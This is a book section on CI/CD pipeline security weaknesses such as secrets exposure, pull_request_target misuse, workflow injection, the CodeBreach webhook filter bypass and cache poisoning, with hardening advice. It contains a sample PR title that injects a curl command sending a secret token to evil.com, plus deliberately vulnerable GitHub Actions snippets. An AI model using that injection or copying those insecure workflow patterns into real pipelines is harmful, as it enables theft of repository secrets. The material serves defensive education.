

# 7.6 CI/CD Pipeline Vulnerabilities

The case studies in preceding sections—SolarWinds, 3CX, Codecov, XZ Utils—demonstrate the catastrophic potential of compromised build and delivery systems. But these high-profile incidents represent the visible peak of a much larger problem. CI/CD pipelines contain systemic vulnerabilities that, while individually less dramatic, create pervasive risk across the software industry. Understanding these vulnerabilities systematically enables defenders to assess and harden their pipelines before attackers exploit them.

This section provides a taxonomy of CI/CD security weaknesses, drawing on the **OWASP CI/CD Security Top 10** framework and research from security organizations studying build pipeline risks. Each vulnerability category includes examples, detection approaches, and hardening recommendations.

## A Systematic Overview of CI/CD Weaknesses

Modern CI/CD systems automate software building, testing, and deployment. This automation provides enormous productivity benefits but concentrates risk: pipelines have access to source code, secrets, build infrastructure, and production systems. A compromised pipeline can affect every release it produces.

The OWASP CI/CD Security Top 10 identifies the most critical pipeline vulnerabilities:

1. **Insufficient Flow Control Mechanisms**: Lack of approval gates and controls
2. **Inadequate Identity and Access Management**: Overprivileged accounts and tokens
3. **Dependency Chain Abuse**: Exploiting package resolution and caching
4. **Poisoned Pipeline Execution (PPE)**: Injecting malicious code into pipelines
5. **Insufficient PBAC (Pipeline-Based Access Controls)**: Weak authorization at the pipeline level
6. **Insufficient Credential Hygiene**: Poor secrets management
7. **Insecure System Configuration**: Misconfigurations in CI/CD platforms
8. **Ungoverned Usage of Third-Party Services**: Uncontrolled integrations
9. **Improper Artifact Integrity Validation**: Missing verification of build outputs
10. **Insufficient Logging and Visibility**: Inability to detect or investigate incidents

We will examine the most prevalent of these throughout this section.

## Secrets Exposure

CI/CD pipelines handle numerous secrets: API keys, deployment credentials, signing keys, database passwords, and access tokens. Improper handling exposes these secrets to attackers.

**Build Log Exposure:**

Build logs capture pipeline output for debugging. Unfortunately, they often capture secrets as well:

- Commands that echo environment variables
- Debugging output that prints configuration
- Error messages that include connection strings
- Test output that reveals API responses

Many CI/CD platforms attempt to redact known secrets, but redaction is imperfect:

- Secrets may be printed in non-standard formats
- Base64 or hex-encoded secrets may not be recognized
- Partial secrets or secret derivatives may be logged

**Example**: [Security researchers documented widespread secret exposure in Travis CI logs][travis-ci-secrets], finding API keys, database credentials, and access tokens visible in public build logs—a problem that persisted across multiple years (2019, 2021, 2022) as different researchers identified recurring patterns of credential leakage.

**Artifact Exposure:**

Build artifacts—the outputs of CI/CD pipelines—may inadvertently include secrets:

- Configuration files with embedded credentials
- Debug builds with hardcoded test secrets
- Container images with secrets baked into layers
- Documentation generated from code containing secrets

**Environment Variable Leakage:**

The Codecov attack (Section 7.4) exploited environment variable access. Any code executing in a pipeline—including dependencies, build scripts, and test code—can read environment variables. Malicious code can exfiltrate these values.

**Hardening Recommendations:**

1. Use dedicated secrets management systems (HashiCorp Vault, AWS Secrets Manager) rather than environment variables where possible
2. Implement secret scanning on build logs before they are stored or displayed
3. Use short-lived, narrowly-scoped credentials
4. Audit artifact contents for secret exposure before publication
5. Configure pipelines to fail if secrets are detected in output

## Insufficient Access Controls

Pipelines often run with excessive privileges, creating opportunities for escalation:

**Overprivileged Tokens:**

GitHub Actions workflows receive `GITHUB_TOKEN` with permissions defined in the workflow or repository settings. Default permissions are often broader than necessary:

- `contents: write` enables repository modification
- `packages: write` enables package publication
- `actions: write` enables workflow modification

A workflow needing only to post a comment might receive permissions sufficient to publish releases.

**Shared Credentials:**

Organizations often share credentials across pipelines:

- A single NPM token used by all repositories
- AWS credentials shared across multiple workflows
- Signing keys accessible to any pipeline

When any one pipeline is compromised, all systems accessible through shared credentials are at risk.

**Example**: [CVE-2022-24348][cve-2022-24348] in Argo CD allowed attackers to steal secrets, passwords, and API keys from other applications by exploiting a path traversal vulnerability in Helm chart processing, demonstrating how CI/CD access control failures can lead to broader compromise.

**Hardening Recommendations:**

1. Implement least-privilege for all pipeline credentials
2. Use scoped tokens specific to each repository or workflow
3. Implement just-in-time credential provisioning
4. Regularly audit and rotate credentials
5. Use OIDC federation instead of long-lived tokens where supported

## Pull Request Exploitation

Open source projects and organizations allowing external contributions face a challenging problem: pull requests may contain malicious code, but testing requires executing that code.

**The Fundamental Tension:**

- CI should validate pull requests before merge
- Validation requires executing PR code (builds, tests)
- Executing untrusted code risks pipeline compromise
- But not testing risks merging broken code

**GitHub Actions `pull_request_target` Vulnerability:**

GitHub Actions distinguishes between `pull_request` (runs in the context of the fork, with read-only access) and `pull_request_target` (runs in the context of the base repository, with secrets access).

`pull_request_target` was designed to allow workflows to interact with the target repository—posting comments, adding labels—without giving fork authors secret access. However, misuse creates severe vulnerabilities:

```yaml
# DANGEROUS: Checks out PR code then runs with target secrets
on: pull_request_target
jobs:
  build:
    runs-on: ubuntu-latest
    steps:

      - uses: actions/checkout@v4

        with:
          ref: ${{ github.event.pull_request.head.sha }}  # Checks out attacker's code

      - run: npm install  # Runs attacker's postinstall scripts with secrets

```

This pattern gives the PR author's code access to repository secrets. Attackers can submit PRs that exfiltrate secrets through malicious build scripts.

**Workflow Injection:**

GitHub Actions workflows can be vulnerable to code injection through expression evaluation:

```yaml
# DANGEROUS: Untrusted input directly in run command

- run: echo "Building ${{ github.event.pull_request.title }}"

```

If a PR title contains shell metacharacters or command injection payloads, they may be executed. An attacker could craft a PR with title `` `curl http://evil.com/steal?token=$SECRET` `` and achieve command execution.

**Example**: In 2021, security researcher Teddy Katz [disclosed CVE-2021-22862][teddy-actions], a vulnerability that allowed attackers to steal GitHub Actions secrets from forked repositories by manipulating pull request base references. The finding earned a $25,000 bug bounty and was patched on GitHub.com and in [GitHub Enterprise Server][cve-2021-22862].

**Hardening Recommendations:**

1. Never checkout PR code in `pull_request_target` workflows
2. Use intermediate variables to sanitize untrusted inputs
3. Require approval for first-time contributors before CI runs
4. Implement workflow review requirements for changes to CI configuration
5. Use `permissions:` to minimize workflow token scope

## Webhook Filter Bypass: The CodeBreach Class of Risk (2026)

Webhook filters are a common mechanism for constraining which events trigger privileged CI/CD builds — for example, allowing only pull requests from trusted maintainers to run builds with access to secrets. When these filters rely on pattern matching rather than exact identity verification, they introduce a subtle but critical vulnerability class.

In January 2026, security researchers at Wiz disclosed what they termed the "CodeBreach" class of risk: a webhook filter misconfiguration in AWS CodeBuild affecting four AWS-managed open-source GitHub repositories, including `aws-sdk-js-v3`, `aws-lc`, `amazon-corretto-crypto-provider`, and `awslabs/open-data-registry`.[^codebreach-aws] Wiz's write-up described how the missing regex anchors could allow a predictably acquired GitHub actor ID to bypass the filter.[^codebreach-wiz]

**Root Cause — Unanchored Regex:**

The CodeBuild webhook filters used regex patterns to match trusted GitHub actor IDs (the numeric user IDs assigned sequentially by GitHub). Critically, these patterns lacked anchors (`^` and `$`), meaning the filter performed a *contains* match rather than an *exact* match:

```
# Intended: match actor ID "12345" exactly
# Actual regex: 12345 (no anchors)
# Matches: 12345, 112345, 123456, 9123450 — any ID containing "12345"
```

Because GitHub assigns numeric user IDs sequentially, an attacker could create new accounts until obtaining an ID that contained a trusted maintainer's ID as a substring, effectively bypassing the allowlist.

**Attack Chain:**



**Impact Assessment:**

AWS reported that researchers demonstrated the ability to commit code to one repository but did not do so maliciously, and AWS found no evidence of exploitation by other actors. AWS performed credential rotations and conducted a broader audit of similar configurations.[^codebreach-aws] However, the *potential* impact — if exploited — included repository admin token theft, malicious commits to widely-consumed libraries (the AWS SDK for JavaScript alone has millions of weekly npm downloads), and cascading supply-chain compromise.

**Lessons:**

1. **Webhook filters are security controls and must be treated as such.** Regex-based actor identity matching is inherently fragile. Use exact-match allowlists or cryptographic identity verification instead.

2. **CI/CD build environments are credential-theft surfaces.** Build memory may contain repository tokens, cloud credentials, and signing keys. Minimize token scope, use ephemeral credentials, and rotate aggressively.

3. **Audit CI trigger logic periodically.** Webhook filter configurations can drift and may never have been correct. Include CI trigger policies in security reviews alongside pipeline definitions.

4. **Assume untrusted PRs will attempt to trigger privileged builds.** Implement explicit approval gates (comment-based or role-based) before running builds that have access to secrets, rather than relying solely on identity-based filtering.

[^codebreach-aws]: AWS, "Security Bulletin 2026-002: AWS Open Source Repository Webhook Configuration," January 15, 2026, https://aws.amazon.com/security/security-bulletins/2026-002-AWS/.
[^codebreach-wiz]: Wiz Research, "CodeBreach: Supply Chain Vuln & AWS CodeBuild Misconfig," January 15, 2026, https://www.wiz.io/blog/wiz-research-codebreach-vulnerability-aws-codebuild.

## Dependency Caching Vulnerabilities

CI/CD systems cache dependencies to accelerate builds. These caches create attack surfaces when shared across security boundaries.

**Cache Poisoning Mechanics:**

1. Attacker identifies how cache keys are computed
2. Attacker crafts a malicious dependency with the same cache key as a legitimate package
3. Attacker triggers a build that populates the cache with the malicious version
4. Subsequent builds retrieve the poisoned cache entry
5. All affected builds include the malicious dependency

**Cache Key Weaknesses:**

Caches keyed only on filenames or partial hashes may be vulnerable:

```yaml
# Potentially vulnerable: cache keyed only on lockfile

- uses: actions/cache@v4

  with:
    path: ~/.npm
    key: npm-${{ hashFiles('package-lock.json') }}
```

If an attacker can submit a PR with a lockfile matching a legitimate one but referencing different package contents, they may poison the cache.

**Cross-Branch Cache Pollution:**

Some CI systems share caches across branches. An attacker with access to any branch could poison caches used by protected branches:

1. Create feature branch
2. Modify dependencies to include malicious code
3. Run CI, populating cache with malicious packages
4. Delete branch (cache remains)
5. Main branch build retrieves poisoned cache

**Example**: [Research by Cycode][cycode-cache] identified cache poisoning and workflow vulnerabilities affecting GitHub Actions in projects like Liquibase, FaunaDB, and Wire, as well as Argo CD Redis cache manipulation, demonstrating practical exploitation paths.

**Hardening Recommendations:**

1. Include comprehensive inputs in cache keys (hashes, branch, runner info)
2. Isolate caches between protected and unprotected branches
3. Implement cache integrity verification where supported
4. Set appropriate cache lifetimes
5. Consider cache-less builds for security-critical pipelines

## Self-Hosted vs. Cloud-Hosted Runners

Organizations choose between self-hosted CI/CD runners and cloud-provided managed runners. Each model has distinct security properties:

**Cloud-Hosted Runners:**

*Advantages:*

- Fresh, ephemeral environment for each job
- Provider handles security patching
- No infrastructure management burden
- Isolation between customer workloads

*Risks:*

- Shared infrastructure (potential for cross-tenant attacks)
- Limited customization of security controls
- Provider is a trust point
- Network egress typically unrestricted

**Self-Hosted Runners:**

*Advantages:*

- Full control over environment and security configuration
- No shared tenancy with other organizations
- Custom network controls and monitoring
- Access to internal resources without exposure

*Risks:*

- Persistent environment (state survives between jobs)
- Organization must handle security patching
- Compromise persists until detected
- Often connected to internal networks

**Ephemeral vs. Persistent Runners:**

The most critical security distinction is ephemeral versus persistent:

**Ephemeral runners** are destroyed after each job. Malware, credential theft, and other compromises affect only that job. The next job receives a fresh environment.

**Persistent runners** maintain state between jobs. Malware can persist across jobs, credentials may be recoverable from memory or disk, and attackers can establish persistent access.

Many self-hosted runner configurations default to persistent mode for performance. This trades security for speed.

**Example**: [Research from Praetorian and others][praetorian-runners] demonstrated how attackers could establish persistent backdoors on self-hosted GitHub Actions runners, maintaining access across subsequent workflow executions.

**Hardening Recommendations:**

1. Prefer ephemeral runners for security-sensitive workloads
2. If using persistent runners, implement regular rotation
3. Apply network segmentation between runners and internal systems
4. Monitor runners for unexpected processes or network connections
5. Implement container isolation even on self-hosted infrastructure
6. Audit runner configurations for security misconfigurations

## Pipeline-as-Code Security

Modern CI/CD systems define pipelines as code—YAML files, scripts, or configuration that lives in repositories alongside application code. This brings software development practices to pipeline management but also creates security considerations.

**Pipeline Definition Attacks:**

If attackers can modify pipeline definitions, they control what runs during builds:

- An attacker with commit access can modify `.github/workflows/*.yml`
- Merged PRs that change CI configuration execute the attacker's pipeline
- Build configuration may live in files less scrutinized than application code

**Pipeline Component Injection:**

Pipelines often use third-party actions or orbs:

```yaml

- uses: some-org/some-action@v1  # What does this do?

```

These components execute with the pipeline's privileges. A compromised third-party action affects every workflow using it.

**Example**: [CVE-2022-36067][cve-2022-36067] in vm2, a popular JavaScript sandboxing library with over 17 million monthly downloads that may be used by pipeline components or third-party actions, allowed sandbox escape and arbitrary code execution.

**Version Pinning Weaknesses:**

```yaml
# RISKY: Tag can be moved to point to different code

- uses: some-action@v1

# SAFER: SHA pinning ensures specific version

- uses: some-action@a1b2c3d4e5f6...

```

Using tags rather than commit SHAs for actions allows maintainers (or attackers who compromise them) to change what code runs without changing the workflow file.

**Hardening Recommendations:**

1. Require code review for pipeline definition changes
2. Pin third-party actions to specific commit SHAs
3. Audit third-party actions before adoption
4. Implement allowlists for approved actions/orbs
5. Use workflow linting tools to detect common misconfigurations
6. Monitor for unexpected pipeline definition changes

## Cache Poisoning Attacks in Depth

Cache poisoning deserves detailed treatment as an increasingly exploited vector:

**Attack Mechanics:**

CI/CD caches accelerate builds by storing downloaded dependencies, build outputs, and intermediate artifacts. Caching works by:

1. Computing a cache key (often from lockfiles, configuration, or environment)
2. Checking if a cached artifact exists for that key
3. Restoring from cache if found, or building fresh and storing if not

Poisoning occurs when an attacker can store malicious content under a key that legitimate builds will request.

**Attack Scenarios:**

*Scenario 1: Lockfile Collision*
Attacker crafts a malicious lockfile that hashes to the same cache key as the legitimate lockfile. They trigger a build that caches malicious dependencies. Future builds retrieve the poisoned cache.

*Scenario 2: Branch-Based Poisoning*
In systems with branch-based cache keys, attacker creates a branch with a legitimate-sounding name, builds with malicious dependencies, and hopes other workflows will match their cache key.

*Scenario 3: Action Cache Poisoning*
GitHub Actions caches are keyed partially on the action repository. If an attacker can compromise an action, they can poison caches that persist across user workflows.

**Detection Challenges:**

Cache poisoning is difficult to detect because:

- Cached content is expected to be executed
- No visibility into cache provenance
- No comparison between cached and fresh content
- Caches may be shared across many builds

**Defense Strategies:**

1. **Comprehensive cache keys**: Include all relevant inputs in keys
2. **Content verification**: Verify cached content integrity before use
3. **Cache isolation**: Separate caches by trust level
4. **Cache monitoring**: Log and alert on unusual cache operations
5. **Periodic cache invalidation**: Limit cache lifetime to reduce poisoning windows
6. **Zero-cache verification builds**: Periodically build without caches and compare results

## CI/CD Security Scanning Tools

Several tools help identify CI/CD vulnerabilities:

**[Semgrep][semgrep]** provides rules for detecting dangerous patterns in GitHub Actions workflows, including `pull_request_target` misuse and injection vulnerabilities.

**[Checkov][checkov]** includes checks for CI/CD configuration security across multiple platforms.

**[GitHub's CodeQL][codeql]** includes queries for identifying workflow security issues.

**[OWASP CI/CD Security Top 10][owasp-cicd]** (developed with contributions from Cider Security, acquired by Palo Alto Networks in 2022) provides a framework for assessment.

**[StepSecurity's Harden-Runner][stepsecurity]** monitors GitHub Actions execution for unexpected behavior.

**[Cycode][cycode]** offers platform for detecting secrets and misconfigurations in CI/CD systems.

## Recommendations for CI/CD Hardening

Based on the vulnerability categories examined:

1. **Secrets Management**: Use dedicated secrets management systems, implement short-lived credentials, and scan outputs for secret exposure.

2. **Access Controls**: Apply least-privilege, use scoped tokens, implement just-in-time access, and regularly audit permissions.

3. **Pull Request Security**: Carefully configure PR workflows, sanitize untrusted inputs, and require approval for first-time contributors.

4. **Cache Security**: Use comprehensive cache keys, isolate caches by trust level, and implement periodic cache rotation.

5. **Runner Security**: Prefer ephemeral runners, segment networks, and monitor for persistent compromise.

6. **Pipeline Code**: Review pipeline definitions as security-critical code, pin dependencies, and audit third-party components.

7. **Monitoring**: Implement logging for all pipeline operations, alert on anomalies, and conduct regular security assessments.

Book 2, Chapter 17 examines zero trust principles applied to CI/CD environments, building on this foundation of vulnerability understanding to develop comprehensive pipeline security architectures.

[owasp-cicd]: https://owasp.org/www-project-top-10-ci-cd-security-risks/
[travis-ci-secrets]: https://edoverflow.com/2019/ci-knew-there-would-be-bugs-here/
[cve-2022-24348]: https://nvd.nist.gov/vuln/detail/CVE-2022-24348
[cve-2021-22862]: https://nvd.nist.gov/vuln/detail/CVE-2021-22862
[teddy-actions]: https://blog.teddykatz.com/2021/03/17/github-actions-write-access.html
[cycode-cache]: https://cycode.com/blog/github-actions-vulnerabilities/
[praetorian-runners]: https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/
[cve-2022-36067]: https://nvd.nist.gov/vuln/detail/CVE-2022-36067
[semgrep]: https://semgrep.dev/p/github-actions
[checkov]: https://www.checkov.io/
[codeql]: https://docs.github.com/en/code-security/code-scanning/introduction-to-code-scanning/about-code-scanning-with-codeql
[stepsecurity]: https://github.com/step-security/harden-runner
[cycode]: https://cycode.com/
